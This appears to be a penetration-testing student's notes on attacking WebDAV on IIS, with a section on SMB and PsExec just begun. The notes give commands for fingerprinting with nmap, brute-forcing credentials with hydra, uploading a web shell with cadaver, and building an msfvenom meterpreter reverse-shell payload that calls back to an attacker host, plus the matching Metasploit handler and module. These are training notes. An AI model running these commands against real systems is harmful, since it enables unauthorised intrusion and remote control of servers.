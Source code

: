 ## Exploiting WebDAV

* Runs on IIS server
* WebDav is file server, allowing file sharing
* Runs on 80/443
* WebDav is typically protected by authentication
    * Bruteforcing the auth is a good way to get access to webDav

### Exploiting webdav with davtest and cadaver

* Initial fingerprinting and access:
    * nmap 10.3.16.188 -sV -O -sC (runs all relevant scripts and initial fingerprinting)
    * nmap 10.3.16.188 -p 80 --script http-enum (performs directory traversal and finds interesting folders, ex: /webdav/)
    * hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt 10.3.16.188 http-get /webdav/ (Bruteforcing webdav)
* Post access discovery
    * davtest -auth bob:password_123321 -url http://10.3.16.188/webdav
        * Runs varies operations to see what operations and file types are supported
* Exploitation
    * Kali comes pre packaged with webshells: ls -al /usr/share/webshells/
    * Cadaver : lets you login to webdav and execute CRUD operations on files
        * On cadaver console
            * Upload a web shell: put /usr/share/webshells/asp/webshell.asp
    * Navigate to the uploaded web shell to run commands

### Exploit Webdav with Metasploit

* Option 1: construct you payload (stager) and upload it manually to webdav using cadaver
    * msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.20.4 LPORT=1234 -f asp > meterpreter.asp
    * Login using cadaver and upload the meterpreter.asp: put /root/meterpreter.asp
    * Setup a listening post
        * Msfconsole -> use multi/handler -> set LHOST <self_ip> -> LPORT <port> (The Lhost and port should be same as the value set in stager)
        * Run (start) listening
    * Open browser -> login to webdav -> locate meterpreter.asp -> run
    * The meterpreter will receive connection and start a reverse shell
* Option 2: Use automated metasploit exploits to perform all the tasks
    * Msfconsole -> search IIS upload
    * use exploit/windows/iis/iis_webdav_upload_asp -> set lhost <self_ip> -> set lport <custom port> -> set rhost <target> -> set httpusername <webdav user> -> set httppassword <webdav password>
    * Run —> meterpreter reverse shell


## Exploiting SMB with PSexec

* SMB is a file share
* Samba is a open source implementation of SMB, used by linux systems